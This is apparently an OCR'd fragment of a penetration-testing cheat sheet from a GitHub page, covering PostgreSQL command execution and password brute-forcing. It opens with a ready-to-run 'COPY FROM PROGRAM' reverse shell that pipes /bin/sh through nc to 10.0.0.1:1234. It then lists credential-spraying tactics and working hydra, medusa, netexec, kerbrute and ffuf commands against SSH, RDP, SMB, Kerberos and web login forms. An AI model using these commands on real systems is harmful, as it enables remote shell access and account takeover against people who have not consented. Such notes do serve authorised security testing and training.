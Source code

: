 ```sql

CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';

psql> \l  -- to list the database 
psql> \c database -- to connect to database like 'use database' in mariadb/mysql 
psql> \dt  -- list available tables in the connected dtabase
psql> \dn  -- list all schemes of currently connected database
psql> \? --help
```

### 🔢Bruteforcing
- Go slow to avoid lockouts (respect domain policy)
- Spray one password across all usernames
- Try `username:username` as creds
- Try  `password` password
- try to use `admin:admin`
- Empty Password too
- Collect credentials from every place and bruteforce and spray it
- Use `cewl` or similar to generate wordlists from websites
- Collect creds from:
	- SMB/FTP shares, web apps, exposed files, Git leaks
```shell

# In case of unstable network, adjust the the mtu by decreasing till you are good to go
sudo ifconfig tun0 mtu 1250
ping -M do -s 1300 <vpn-ip>   # -M do = don't fragment
# If it fails, your MTU is too high. Keep lowering the -s size until ping works.

# HYDRA
hydra -h 
hydra http-port-form -U
hydra -l admin -P wordslist.txt 192.168.104.52 http-post-form "/login.php:username=^USER^&password=^PASS^&debug=0:H=Content-Type: application/x-www-form-urlencoded:Failed"
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
# Hydra doesn't support smbv2 or v3 by default
# -I = ignore restore file 
# -V = verbose
# for base64 encoding 
":username=^USER64^&password=^PASS64^:C=/:F=403"


# medusa and ncrack are better alternative to hydra
ls /usr/lib/x86_64-linux-gnu/medusa/modules/
medusa -h 192.168.1.100 -u admin -P /usr/share/wordlists/passwords.txt -M smbnt -t 10 > medusa_results.txt
grep 'ACCOUNT_FOUND' medusa_results.txt


# rdp can be bruteforce using hydra or through smb bruteforcing using netexec
netexec smb <target-ip> -u <username> -p wordlist.txt -d corp.co --continue-on-success
# we can also use nxc to check which user is allowed to rdp in which machine using screenshot
netexec rdp <ip-range> -u user -p pass -d corp.com --continue-on-success --screenshot --screentime <time> # --nla-screenshot

kerbrute passwordspray -d corp.com adusers.txt 'Nexus123!' --dc 192.168.237.70


# FFUF
ffuf -w wordslist.txt  -X POST -d 'username=admin&password=FUZZ' -u http://192.168.104.52/login.php -fr "Failed" -H "Content-Type: application/x-www-form-urlencoded"
```